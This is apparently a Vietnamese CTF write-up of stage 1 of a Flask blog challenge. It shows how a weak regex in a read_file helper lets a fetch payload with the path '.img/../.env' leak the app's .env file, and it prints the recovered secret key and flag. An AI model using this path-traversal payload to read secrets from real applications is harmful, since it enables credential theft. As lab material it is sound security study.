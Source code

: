 ![image](https://github.com/user-attachments/assets/9d121b3c-743a-4f4a-b353-6576c0b186e3)

# **ANALYZE**

Và theo mô tả thì đây chính là 1 bài web được lồng ghép 5 vuln vào tương ứng với 5 Stage Flag , ta sẽ phải giải từng lvl để có được manh mối để có thể giải lvl tiếp theo.

![image](https://github.com/user-attachments/assets/63edad89-3512-4ec7-a1c1-fbf79e1cae2b)

Đầu tiên khi truy cập trang web của chall , thì nó chỉ là 1 form đăng nhập , bây h chúng ta sẽ đăng nhập vào bằng 1 tài khoản bất kì.

Thì đây chính là 1 trang blog dùng để đăng tải bài viết 

![image](https://github.com/user-attachments/assets/830ef06a-fe82-4895-8935-5e4ab263107c)

Tiếp đến ta sẽ đi phần phân tích trong Source code mà chall cung cấp cho chúng ta

Trong file `set_up.py` đã cung cấp cho ta thông tin rằng là , FLAG_STAGE_1 và FLASK_APP_SECRET_KEY được giấu trong .env

```
import os
from uuid import uuid4

FLAG_STAGE_1 = os.environ.get("FLAG_STAGE_1")
FLAG_STAGE_5 = os.environ.get("FLAG_STAGE_5")

with open(".env", "w") as f:
    f.write(f"FLASK_APP_SECRET_KEY={os.urandom(50).hex()}\n")
    f.write(f"FLAG_STAGE_1={FLAG_STAGE_1}\n")

with open(f"flag_{uuid4().hex + uuid4().hex + uuid4().hex}.txt", "w") as f:
    f.write(FLAG_STAGE_5)
```

Và bên trong file `main.py` có 1 hàm `read_file` vô cùng nguy hiểm 

```
def read_file(path):
    # Prevent reading files outside the allowed directory (.img/).
    if not re.search(r'^\.\w+.*$', str(os.path.relpath(path))):
        return ""

    try:
        with open(path, 'rb') as f:
            content = f.read()
            base64_content = base64.b64encode(content).decode('utf-8')
            return base64_content
    except Exception:
        return ""
```

Regex r'^\.\w+.*$' tưởng như giới hạn chỉ đọc .img/, nhưng thực tế:

.env → hợp lệ (vì bắt đầu bằng dấu . và tiếp theo là chữ cái).

os.path.relpath(path) với path=".env" vẫn là .env.

→  ta có thể đọc file .env thông qua hàm read_file() nếu ta có thể điều khiển biến path

Và dữ liệu được trả về sẽ được mã hóa dạng base64.

# **EXPLOIT**

Vậy nên payload đẻ giải STAGE_1 sẽ là :

Và ta sẽ ném nó vào console

```
fetch('/note/new', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: new URLSearchParams({
    'title': 'leak',
    'content': 'read .env',
    'image_path': '.img/../.env'
  })
}).then(res => res.text()).then(t => console.log(t))
```

Sau khi ta ném payload này lên thì nó sẽ trở thành : 

```
<img src="data:image/png;base64,{{ note.image_path | read_file }}">
```
→ read_file('.img/../.env') được gọi
→ os.path.relpath('.img/../.env') → '.env'
→ File .env được mở
→ Nội dung được base64.encode
→ Trả về trình duyệt trong HTML
→ Flag lộ ra ở thẻ <img> hoặc source HTML.

![image](https://github.com/user-attachments/assets/e03a2212-187e-4224-9e1d-535a69f5e689)


```
src="data:image/png;base64, RkxBU0tfQVBQX1NFQ1JFVF9LRVk9OWYzMTBkNzVjODRjMWFiYTY1ZmE4N2ZlYzg5ODBmN2M0M2I1NWRkMjc0YjQxZTM1MTI3Nzc5ODFjYTM3ZWExZDYwNmU2MjZjMjQyNDhhMGQzOTk1N2MyYmI5NGM5NDkzZjQxMApGTEFHX1NUQUdFXzE9R1BOQ1RGe2pVNXRfMWU0a180MWxfVGhlX1RISU42U30K" alt="">
```

![image](https://github.com/user-attachments/assets/1322a3ca-9d50-4963-b8b9-2831873c51e3)


# **FLAG**
```
FLASK_APP_SECRET_KEY=9f310d75c84c1aba65fa87fec8980f7c43b55dd274b41e3512777981ca37ea1d606e626c24248a0d39957c2bb94c9493f410
FLAG_STAGE_1=GPNCTF{jU5t_1e4k_41l_The_THIN6S}
```

